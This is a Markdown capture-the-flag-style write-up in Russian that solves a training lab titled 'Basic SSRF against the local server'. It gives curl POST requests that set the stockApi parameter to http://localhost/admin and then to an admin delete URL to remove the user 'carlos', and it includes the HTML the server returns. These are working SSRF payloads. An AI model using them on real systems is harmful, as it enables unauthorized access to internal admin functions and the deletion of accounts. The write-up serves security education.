

# Lab: Basic SSRF against the local server

## Description

Level:`APPRENTICE`

This lab has a stock check feature which fetches data from an internal system.

> To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

# Solution

Изучив сайт увидим следующее:
```html
<form id="stockCheckForm" action="/product/stock" method="POST">
    <select name="stockApi">
        <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=3&amp;storeId=1">London</option>
        <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=3&amp;storeId=2">Paris</option>
        <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=3&amp;storeId=3">Milan</option>
    </select>
    <button type="submit" class="button">Check stock</button>
</form>
```

Значит нам надо в параметр `stockApi`
передать ссылку на админку, а тк
мы работаем с формой то надо учитывать это
для заголовка:
`Content-Type: application/x-www-form-urlencoded`

Попробуем так:
```bash
curl -s -X POST "https://lab-id.web-security-academy.net/product/stock" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "stockApi=http://localhost/admin"
```

Получили ответ:
```bash
<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Basic SSRF against the local server</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Basic SSRF against the local server</h2>
                            <a class=link-back href='https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/admin">Admin panel</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
                    <br>
                    <hr>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```

Чтож, мы увидили достаточно чтобы выполнить окончательный запрос:
```bash
curl -s -X POST "https://lab-id.web-security-academy.net/product/stock" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "stockApi=http://localhost/admin/delete?username=carlos"
```

А затем увидим, что лаба решена)

